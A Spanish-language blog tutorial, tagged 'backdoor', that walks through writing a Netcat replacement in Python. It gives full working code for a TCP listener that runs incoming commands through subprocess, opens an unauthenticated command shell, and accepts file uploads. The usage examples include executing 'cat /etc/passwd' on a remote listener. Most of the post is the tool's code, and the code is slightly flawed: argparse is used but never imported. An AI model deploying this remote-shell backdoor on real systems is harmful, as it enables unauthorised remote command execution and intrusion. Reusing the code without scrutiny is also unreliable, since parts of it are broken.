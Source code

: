 ```yaml
---
layout: single
title: "Como crear tu propia herramienta de hacking con Netcat en Python"
excerpt: "¡Este es nuestro ejemplo de Netcat en Python! En este tutorial, aprenderás cómo crear una herramienta de red de bajo nivel utilizando el lenguaje de programación Python. A través de la creación de una versión de Netcat, aprenderás sobre la creación de conexiones de red, el manejo de flujos de datos y la transmisión de información en tiempo real. Este tutorial es adecuado tanto para principiantes como para usuarios con experiencia en Python y es una excelente forma de ampliar tus habilidades en programación de redes. ¡Prepárate para sumergirte en el mundo de la programación de redes con Python! "
date: 2022-08-03 
classes: wide
header:
 teaser: /assets/images/netcat/nc.png
 teaser_home_page: true
categories:
  - Programación
tags:
  - seguridad
  - herramienta
  - networks
  - python
  - backdoor
---
```


En ocasiones vemos servidores que no tienen instalado NetCat y/o tampoco permite la instalacion de dicha herramienta, pero si que contamos con python, por lo que utilizaremos este lenguaje para montarnos una herramienta similiar al NetCat.

Vamos a ponerle de nombre al archivo **netcat.py** y empezamos importando las librerias necesarias para trabajar nuestra herramienta

```python
import socket
import shlex
import subprocess
import sys
import textwrap
import threading
```

Cabe resaltar que la libreria **subprocess** nos brinda la creacion de procesos para interactuar con los programas cliente. Creamos una funcion llamada **execute** y le pasamos como parametro ```cmd``` .  Empezamos con nuestra funcion y creamos una variable llamada cmd donde le pasamos el parametro cmd seguido del metodo _strip()_ , este metodo lo que nos hace es eliminar cualquier espacio delante o detras de la palabra. 

Despues de la sentencia if nos creamos una variable llamada **output** y haciendo uso esta misma libreria, subprocess, usamos el metodo _check_output_ que facilmente nos ejecuta un comando en el sistema operativo local y luego devuelve su resultado 

```python
def execute(cmd):
    cmd = cmd.strip()
    if not cmd:
        return
    output = subprocess.check_output(shlex.split(cmd), stderr=subprocess.STDOUT)
    return output.decode()
```


```python
class NetCat:
    def __init__(self, args, buffer=None):
        self.args = args
        self.buffer = buffer
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

    def run(self):
        if self.args.listen:
            self.listen()
        else:
            self.send()

    def send(self):
        self.socket.connect((self.args.target, self.args.port))
        if self.buffer:
            self.socket.send(self.buffer)
        try:
            while True:
                recv_len = 1
                response = ''
                while recv_len:
                    data = self.socket.recv(4096)
                    recv_len = len(data)
                    response += data.decode()
                    if recv_len < 4096:
                        break
                if response:
                    print(response)
                    buffer = input('> ')
                    buffer += '\n'
                    self.socket.send(buffer.encode())
        except KeyboardInterrupt:
            print('User terminated.')
            self.socket.close()
            sys.exit()

    def listen(self):
        print('listening')
        self.socket.bind((self.args.target, self.args.port))
        self.socket.listen(5)
        while True:
            client_socket, _ = self.socket.accept()
            client_thread = threading.Thread(target=self.handle, args=(client_socket,))
            client_thread.start()

    def handle(self, client_socket):
        if self.args.execute:
            output = execute(self.args.execute)
            client_socket.send(output.encode())
        elif self.args.upload:
            file_buffer = b''
            while True:
                data = client_socket.recv(4096)
                if data:
                    file_buffer += data
                    print(len(file_buffer))
                else:
                    break
            with open(self.args.upload, 'wb') as f:
                f.write(file_buffer)
            message = f'Saved file {self.args.upload}'
            client_socket.send(message.encode())
        elif self.args.command:
            cmd_buffer = b''
            while True:
                try:
                    client_socket.send(b' #> ')
                    while '\n' not in cmd_buffer.decode():
                        cmd_buffer += client_socket.recv(64)
                    response = execute(cmd_buffer.decode())
                    if response:
                        client_socket.send(response.encode())
                    cmd_buffer = b''
                except Exception as e:
                    print(f'server killed {e}')
                    self.socket.close()
                    sys.exit()

if __name__ == '__main__':
    parser = argparse.ArgumentParser(
        description='BHP Net Tool',
        formatter_class=argparse.RawDescriptionHelpFormatter,
        epilog=textwrap.dedent('''Example:
          netcat.py -t 192.168.1.108 -p 5555 -l -c # command shell
          netcat.py -t 192.168.1.108 -p 5555 -l -u=mytest.whatisup # upload to file
          netcat.py -t 192.168.1.108 -p 5555 -l -e=\"cat /etc/passwd\" # execute command
          echo 'ABCDEFGHI' | ./netcat.py -t 192.168.1.108 -p 135 # echo local text to server port 135
          netcat.py -t 192.168.1.108 -p 5555 # connect to server
          '''))
          
    parser.add_argument('-c', '--command', action='store_true', help='initialize command shell')
    parser.add_argument('-e', '--execute', help='execute specified command')
    parser.add_argument('-l', '--listen', action='store_true', help='listen')
    parser.add_argument('-p', '--port', type=int, default=5555, help='specified port')
    parser.add_argument('-t', '--target', default='192.168.1.203', help='specified IP')
    parser.add_argument('-u', '--upload', help='upload file')
    args = parser.parse_args()
    if args.listen:
        buffer = ''
    else:
        buffer = sys.stdin.read()
    nc = NetCat(args, buffer.encode('utf-8'))
    nc.run()
```